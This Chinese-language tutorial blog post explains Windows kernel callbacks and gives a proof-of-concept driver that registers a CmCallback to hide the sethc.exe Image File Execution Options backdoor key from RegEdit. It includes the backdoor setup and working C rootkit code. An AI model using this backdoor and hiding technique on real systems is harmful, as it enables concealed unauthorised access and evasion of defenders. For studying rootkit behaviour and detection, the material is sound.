

# 【第 26 話】Kernel Callback 隱藏 Registry

## 文章大綱
這篇要講解 Windows 中的 Kernel Callback 機制，以及利用這個機制從 Kernel 隱藏 Registry，躲過 RegEdit 工具的列舉，並模仿惡意程式隱藏自己的後門。


## Kernel Callback
Windows Kernel Callback 是一個讓驅動程式註冊 Callback 函數，然後在特定事件發生時執行操作的機制。這些 Callback 函數可以用來監視、修改原本系統的行為。

在[【第 21 話】驅動程式數位簽章](/asset/第%2021%20話)中有提到在 x64 Windows XP 之後 PatchGuard 會偵測 Kernel 的各種結構是否被竄改，包括 Hook SSDT 這個技術，因為會改到 SSDT 這個表本身，所以不論是防禦者或攻擊者都不能使用。


取而代之的是微軟開發的 Kernel Callback 機制，它讓使用者可以在不 Hook 的狀況下監控各種 Kernel API。然而，攻擊者如果有 Kernel 執行權也可以利用這個機制實作惡意行為。


## CmCallback
Kernel Callback 的種類很多，這篇會針對其中的 CmCallback 達到隱藏 Registry 的效果。

使用 [CmRegisterCallbackEx](https://learn.microsoft.com/zh-tw/windows-hardware/drivers/ddi/wdm/nf-wdm-cmregistercallbackex) 註冊 CmCallback，我們可以在各種 Registry 操作相關的 Kernel API 的前後做預處理（Preoperation）和後處理（Postoperation）。從 wdm.h 中可以找到 [REG_NOTIFY_CLASS](https://learn.microsoft.com/zh-tw/windows-hardware/drivers/ddi/wdm/ne-wdm-_reg_notify_class)，這些都是我們在 Callback 中操作的 Registry 事件。

```
typedef enum _REG_NOTIFY_CLASS {
  RegNtDeleteKey,
  RegNtPreDeleteKey,
  ...
  RegNtPostSaveMergedKey,
  MaxRegNtNotifyClass
} REG_NOTIFY_CLASS;
```


## 隱藏 Registry
在[【第 20 話】BYOVD 攻擊](/asset/第%2020%20話)中有提到 GhostEmperor 濫用有漏洞的驅動程式隱藏惡意程式相關的 Registry，這篇會透過註冊 CmCallback 達到相同效果。

其中一種用 Registry 達到的簡單後門是在 `\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe` 中新增一個 `Debugger`，內容填想要執行的任意程式，例如 `C:\Windows\System32\cmd.exe`。


在螢幕鎖定時點選高對比的開關時就會跳出一個 cmd。這篇的目標就是要從 Kernel 使用 CmCallback 隱藏這個後門 Registry。




CmCallback 能處理的事件很多，這篇只處理 `RegNtPostEnumerateKey` 來隱藏 Registry，因為程式一般會使用 [ZwEnumerateKey](https://learn.microsoft.com/zh-tw/windows-hardware/drivers/ddi/wdm/nf-wdm-zwenumeratekey) 列舉 Registry。


## 寫程式
程式主要參考 [JKornev/hidden](https://github.com/JKornev/hidden)，我簡化它實作的流程並加了一些註解，完整的專案也放在我的 GitHub [zeze-zeze/2023iThome](https://github.com/zeze-zeze/2023iThome/tree/master/HideRegistry)。

程式步驟如下。
1. 在 CmCallback 處理 RegNtPostEnumerateKey
2. 取得當前處理的 Registry 的相關資訊
3. 比對當前處理的 Registry 是不是要隱藏的目標
4. 如果是要隱藏的目標就取代為它的下一個 Registry

```c
NTSTATUS CmCallbackCmRegistryCallback(PVOID CallbackContext, PVOID Argument1, PVOID Argument2)
{
    UNREFERENCED_PARAMETER(CallbackContext);

    // 1. 在 CmCallback 處理 RegNtPostEnumerateKey
    // 根據 CmCallback 的類別做不同處理，這個 PoC 要處理的只有 RegNtPostEnumerateKey
    switch ((REG_NOTIFY_CLASS)PtrToUlong(Argument1))
    {
        case RegNtPostEnumerateKey:
        {
            PREG_POST_OPERATION_INFORMATION info = (PREG_POST_OPERATION_INFORMATION)Argument2;
            PCUNICODE_STRING regPath;
            UNICODE_STRING keyName;
            PREG_ENUMERATE_KEY_INFORMATION preInfo;
            if (!NT_SUCCESS(info->Status))
                return STATUS_SUCCESS;

            // 2. 取得當前處理的 Registry 的相關資訊
            // 取得當前處理的 Key 的 Registry Path
            if (!NT_SUCCESS(CmCallbackGetKeyObjectID(&CmCallbackCmCallbackContext.CallbackRegistrationCookie, info->Object,
                                                     NULL, &regPath)))
                return STATUS_SUCCESS;

            // 根據 KeyInformationClass 取得 keyName
            preInfo = (PREG_ENUMERATE_KEY_INFORMATION)info->PreInformation;
            if (!GetNameFromEnumKeyPreInfo(preInfo->KeyInformationClass, preInfo->KeyInformation, &keyName))
                return STATUS_SUCCESS;

            PVOID tempBuffer = (LPWSTR)ExAllocatePoolWithTag(PagedPool, preInfo->Length, 'hide');
            if (tempBuffer)
            {
                // 3. 比對當前處理的 Registry 是不是要隱藏的目標
                // 比對 Registry Path 是不是跟要隱藏的 Registry 相同
                if (!wcscmp(regPath->Buffer,
                            L"\\REGISTRY\\MACHINE\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image File Execution "
                            L"Options"))
                {
                    // 比對 Key Name 的比對結果是不是大於等於 sethc.exe，
                    // 因為如果要隱藏 sethc.exe，之後的每一個 Registry 都要被它的下一個 Registry 取代
                    if (wcscmp(keyName.Buffer, L"sethc.exe") >= 0)
                    {
                        // 4. 如果是要隱藏的目標就用它的下一個 Registry 取代
                        // 取得當前的 Key 所在的 Registry Path 的 Object
                        HANDLE Key;
                        NTSTATUS status = ObOpenObjectByPointer(info->Object, OBJ_KERNEL_HANDLE, NULL, KEY_ALL_ACCESS,
                                                                *CmKeyObjectType, KernelMode, &Key);
                        if (!NT_SUCCESS(status))
                            return STATUS_SUCCESS;

                        // 取得下一個 Registry 的相關資訊
                        ULONG resLen;
                        status = ZwEnumerateKey(Key, preInfo->Index + 1, preInfo->KeyInformationClass, tempBuffer,
                                                preInfo->Length, &resLen);
                        if (!NT_SUCCESS(status))
                            return STATUS_SUCCESS;

                        if (!GetNameFromEnumKeyPreInfo(preInfo->KeyInformationClass, tempBuffer, &keyName))
                            return STATUS_SUCCESS;

                        // 把下一個 Registry 的 KeyInformation 取代當前 Registry 的 KeyInformation
                        RtlCopyMemory(preInfo->KeyInformation, tempBuffer, resLen);
                    }
                }
            }
        }
        default:
            break;
    }
    return STATUS_SUCCESS;
}
```


## 測試
開啟 VM，記得要在本機開啟 vmmon64.exe，並在 boot options 按 F8 選擇 `Disable Driver Signature Enforcement`。

1. 用 RegEdit 寫入 Registry `\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe`
2. 載入 [HideRegistry.sys](https://github.com/zeze-zeze/2023iThome/blob/master/HideRegistry/bin/HideRegistry.sys)
3. 在 RegEdit 按 F5 重新整理會發現 `sethc.exe` 的 Key 消失了

這篇實作的 PoC 只有處理 `RegNtPostEnumerateKey`，實際上同時也可以處理 `RegNtPreOpenKey`、`RegNtDeleteKey` 等等，讓要隱藏的 Registry 更隱密。

## 參考資料
- [JKornev/hidden](https://github.com/JKornev/hidden)
- [OSRDrivers/kmexts](https://github.com/OSRDrivers/kmexts)
- [Kernel Karnage – Part 5 (I/O & Callbacks)](https://blog.nviso.eu/2021/11/30/kernel-karnage-part-5-i-o-callbacks/)
- [【Day 13】粗暴後門，Duck 不必 - Windows 簡單後門](https://ithelp.ithome.com.tw/articles/10273669)